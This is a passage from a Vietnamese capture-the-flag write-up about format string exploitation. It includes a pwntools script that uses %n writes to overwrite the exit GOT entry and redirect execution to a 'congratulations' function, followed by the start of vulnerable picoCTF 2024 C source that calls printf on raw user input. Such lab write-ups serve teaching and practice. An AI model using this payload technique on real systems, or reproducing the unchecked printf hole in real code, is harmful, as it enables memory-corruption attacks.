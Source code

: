 - Địa chỉ của `exit` là `0x080497e4`
- Tìm địa chỉ của hàm `congratulations`
![image](https://hackmd.io/_uploads/ryQxJyku0.png)
- Địa chỉ của hàm `congratulations` là `0x8048503`
- Ta cần đặt giá trị `0x8048503` vào địa chỉ `0x080497e4` của hàm `exit` để khi gọi hàm `exit` thì sẽ được trỏ đến hàm gọi hàm `congratulations`
- Để thay đổi giá trị ta dùng định dạng `%n` tương tự thử thách trước
- Tìm vị trí biến `buf` trong stack
![image](https://hackmd.io/_uploads/SyXyfJku0.png)
- Ta thấy vị trí của biến `buf` nằm ở vị trí thứ 12
- Làm tương tự như thử thách trước để thay đổi giá trị tại địa chỉ `0x080497e4` thành `0x8048503`
![image](https://hackmd.io/_uploads/Hk2YQkyOA.png)
## Script
```python=
from pwn import *

exit = 0x080497e4

payload = p32(exit)
payload += p32(exit+1)
payload += p32(exit+2)
payload += p32(exit+3)

payload += '%x '*11
payload += 'a'*178
payload += '%n'

payload += 'a'*130
payload += '%n'

payload += 'a'*127
payload += '%n'

payload += 'a'*4
payload += '%n'
print(payload)
```
# [format string 2 (picoctf2024)](https://play.picoctf.org/practice/challenge/448?category=6&page=2)
## Source code
```c 
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

```